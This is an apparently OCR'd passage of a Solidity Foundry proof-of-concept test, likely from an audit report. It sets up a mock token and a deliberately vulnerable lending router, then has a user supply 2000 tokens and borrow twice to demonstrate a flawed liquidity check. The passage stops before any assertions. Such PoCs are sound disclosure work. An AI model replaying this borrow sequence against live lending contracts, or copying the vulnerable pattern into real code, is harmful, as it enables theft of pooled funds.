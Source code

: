 ```solidity

    function transfer(address to, uint256 amount) external override returns (bool) {
        balanceOf[msg.sender] -= amount;
        balanceOf[to] += amount;
        return true;
    }

    function approve(address spender, uint256 amount) external override returns (bool) {
        allowance[msg.sender][spender] = amount;
        return true;
    }

    function transferFrom(address from, address to, uint256 amount) external override returns (bool) {
        allowance[from][msg.sender] -= amount;
        balanceOf[from] -= amount;
        balanceOf[to] += amount;
        return true;
    }

    function mint(address to, uint256 amount) external {
        balanceOf[to] += amount;
    }
}

contract PoC is Test {
    using SafeERC20 for IERC20;

    VulnerableCoreRouter public coreRouter;
    LendStorage public lendStorage;
    LToken public lToken;
    MockERC20 public underlyingToken;
    address public alice = address(0x1);
    uint256 public constant SUPPLY_AMOUNT = 2000 ether;
    uint256 public constant BORROW_AMOUNT_FIRST = 1000 ether;
    uint256 public constant BORROW_AMOUNT_SECOND = 500 ether;

    function setUp() public {
        lendStorage = new LendStorage();
        coreRouter = new VulnerableCoreRouter(address(lendStorage));
        underlyingToken = new MockERC20();
        lToken = new LToken(address(underlyingToken));
        lendStorage.underlyingToLToken[address(underlyingToken)] = lToken;

        // Mint and supply for Alice
        vm.startPrank(alice);
        underlyingToken.mint(alice, SUPPLY_AMOUNT);
        underlyingToken.approve(address(coreRouter), SUPPLY_AMOUNT);
        coreRouter.supply(SUPPLY_AMOUNT, address(underlyingToken));
        vm.stopPrank();
    }

    function testIncorrectLiquidityCheck() public {
        // First borrow: 1000 USDC
        vm.startPrank(alice);
        coreRouter.borrow(BORROW_AMOUNT_FIRST, address(underlyingToken));
        vm.stopPrank();

        // Second borrow: 500 USDC
        vm.startPrank(alice);
        coreRouter.borrow(BORROW_AMOUNT_SECOND, address(underlyingToken));
        vm.stopPrank();

```